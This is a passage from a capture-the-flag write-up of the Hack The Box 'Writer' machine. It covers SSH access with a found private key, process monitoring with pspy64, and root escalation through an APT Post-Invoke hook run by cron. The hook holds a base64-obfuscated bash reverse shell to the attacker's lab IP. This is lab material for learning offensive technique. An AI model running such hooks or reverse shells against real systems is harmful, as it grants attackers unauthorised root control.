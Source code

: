Hey we're in John now. I've quickly realise there is a private ssh key, so I can use that to connect with ssh!

![nc capture](/images/htb-writer/16.png)

![ssh key](/images/htb-writer/17.jpeg)

We can check John's groups.

```bash
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

I am just gonna upload `pspy64` to John via sftp and check running processes.

```bash
alcadramin@archlinux ➜ Writer  sftp -i john_key john@10.10.11.101
Connected to 10.10.11.101.
sftp> put /home/alcadramin/pwn/pspy64
```

## Privilege Escalation

So I ran `pspy64` and realise this naughty boy is running APT via cron and we also have access to APT hooks so we can create a payload in `/etc/apt/apt.conf.d`. (https://wiki.debian.org/AptConfiguration)

```bash
2021/12/03 18:08:02 CMD: UID=0    PID=27301  | /usr/bin/apt-get update
2021/12/03 18:09:01 CMD: UID=0    PID=27326  | /usr/sbin/CRON -f
```

```bash
echo 'APT::Update::Post-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc0LzEyMTIgMD4mMSI= | base64 -d | bash"};'> 01payload
```

And we got root access!

![root](/images/htb-writer/18.png)

Finally I'm submitting my hashes!

![pawned](/images/htb-writer/19.png)

- Thank you for reading this article, hope you've had fun and learned something! See you next time!
